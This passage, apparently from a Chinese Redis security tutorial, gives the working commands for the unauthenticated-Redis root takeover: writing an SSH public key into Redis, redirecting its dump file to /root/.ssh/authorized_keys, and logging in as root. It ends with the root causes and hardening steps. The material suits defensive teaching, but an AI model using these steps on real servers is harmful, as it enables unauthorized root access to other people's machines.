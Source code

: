 将本地公钥写入到foo.txt文件中：

```sh
(echo -e "  "; cat id_rsa.pub; echo -e "  ") > foo.txt
```

然后再连接Redis，并将foo.txt文件中的数据写入到Redis中：

```shell
cat foo.txt | redis-cli -h 192.168.110.101 -x set crackit
```

然后登陆Redis，并将工作目录修改为/root/.ssh/目录下：

```sh
$ edis-cli -h 192.168.110.101
$ 192.168.110.101:6379> config set dir /root/.ssh/
OK
```

然后修改RDB持久化保存的文件名称，将其修改为authorized_keys：

```sh
$ 192.168.110.101:6379> config set dbfilename "authorized_keys"
OK
```

这样一来，当我们进行RDB持久化时，保存的文件名称就叫做authorized_keys，此时进行一下RDB持久化：

```sh
$ 192.168.110.101:6379> save
OK
```

这样就可以成功的将自己的公钥写入到/root/.ssh文件夹的authorized_keys文件里，然后攻击者直接执行：

```sh
ssh -i id_rsa root@192.168.110.101
```

即可远程利用自己的私钥登录该服务器。



**该漏洞出现的核心原因有以下几点：**

1. Redis暴露在公网上；
2. Redis未设置密码；
3. 利用了Redis的config set命令动态修改Redis配置；
4. 使用了root账号权限启动Redis。



> **解决漏洞方案**
>
> 1. Redis一定要设置密码；
>
> 2. 禁止线上使用下面命令：keys、flushall、flushdb、config set等命令。可以利用`rename-command`禁用；
>
>    例如：rename-command config 3hahd83h3ohf98sdf，就表示以后的config命令不再使用config启动，而是使用3hahd83h3ohf98sdf这一段字符串来表示。
>
> 3. bind：限制网卡，禁止外网网卡访问。
>
>    我们可以在redis.conf文件中，使用bind绑定公司的内网，这样一来只有公司内部网络才能访问。
>
> 4. 开启防火墙。
>
> 5. 不要使用root账户启动Redis。
>
> 6. Redis尽量不要使用默认的端口。
>
>    默认端口是6379，可以修改成其他的端口比如6388，这样就可以减少被攻击的风险。
